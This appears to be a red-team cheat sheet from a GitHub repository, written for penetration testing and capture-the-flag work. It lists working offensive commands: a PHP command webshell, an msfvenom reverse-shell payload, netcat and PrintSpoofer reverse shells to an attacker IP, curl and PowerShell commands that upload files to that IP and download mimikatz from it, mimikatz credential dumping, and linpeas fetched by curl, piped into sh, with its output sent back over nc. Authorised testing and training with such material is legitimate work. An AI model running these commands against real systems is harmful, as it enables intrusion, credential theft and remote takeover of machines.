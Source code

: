 # Red Team Cheat Sheet

# Web

https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

Commonly Used Dictionaries

```
# web/common.txt - 4743 Lines
https://raw.githubusercontent.com/voidexec/sec/main/web/common.txt

# web/big.txt - 20476 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/big.txt

# web/directory-list-2.3-small.txt - 87664 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-small.txt

# web/directory-list-2.3-medium.txt - 220559 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-medium.txt

# web/directory-list-2.3-big.txt - 1273832 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-big.txt
```

HTTP Server for Upload and Download

```bash
# Download
https://raw.githubusercontent.com/voidexec/sec/main/web/httpserver.py

# Start Server
python3 httpserver.py (default port 80)
python3 httpserver.py -p 8000
```

Upload and Download with Curl

```bash
# Upload file with curl
curl -F 'file=@/home/ubuntu/Desktop/linpeas.out' http://192.168.45.145/

# Download file with curl
curl -O http://192.168.45.145/linpeas.sh
```

Upload and Download with PowerShell

```powershell
# Upload with PowerShell
Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $fs = [System.IO.File]::OpenRead("C:\Users\Public\winpeas.out"); $content = New-Object System.Net.Http.MultipartFormDataContent; $fileContent = New-Object System.Net.Http.StreamContent($fs); $fileContent.Headers.ContentDisposition = New-Object System.Net.Http.Headers.ContentDispositionHeaderValue("form-data"); $fileContent.Headers.ContentDisposition.Name = '"file"'; $fileContent.Headers.ContentDisposition.FileName = '"test.out"'; $content.Add($fileContent); $client.PostAsync("http://192.168.45.145/", $content).Wait(); $client.Dispose()

# Download with PowerShell
iwr -uri "http://192.168.45.145/mimikatz.exe" -outfile "C:\Users\Public\mimikatz.exe"
```

# Reverse Shell

Reverse Shell Generator https://www.revshells.com/

```bash
# PHP One-liner webshell
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

```powershell
# Windows Stageless
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.199 LPORT=9002 -f exe -o reverse.exe
```

# Windows

Quick Commands

```powershell
# Run as another user (Launch new window)
runas /user:backupadmin cmd
# Search for Flag
Get-ChildItem -Path C:\Users -Include local.txt,proof.txt,user.txt,root.txt,flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

PrintSpoofer (Abusing `SeImpersonatePrivilege`)

https://github.com/itm4n/PrintSpoofer

```powershell
https://github.com/itm4n/PrintSpoofer/releases
# Usage 1 - Spawning cmd interactive as system
PrintSpoofer64.exe -i -c cmd
# Usage 2 - Launching reverse shell as system
PrintSpoofer64.exe -c "C:\Users\Public\nc64.exe 192.168.45.145 9001 -e powershell"
```

NC

https://github.com/int0x33/nc.exe/

```powershell
https://github.com/int0x33/nc.exe/
# nc64.exe
https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe
# Reverse shell
nc64.exe 192.168.45.145 9001 -e powershell
```

Mimikatz

https://github.com/ParrotSec/mimikatz

```powershell
https://raw.githubusercontent.com/ParrotSec/mimikatz/refs/heads/master/x64/mimikatz.exe
# Usage
privilege::debug
sekurlsa::logonpasswords full
```

# Linux

Linpeas

```powershell
https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # attacker
curl http://192.168.45.145/linpeas.sh | sh | nc 192.168.45.145 9002 # victim
```

# Services

FTP

```bash
# Download all the files
ftp 192.168.119.2
mget *
```
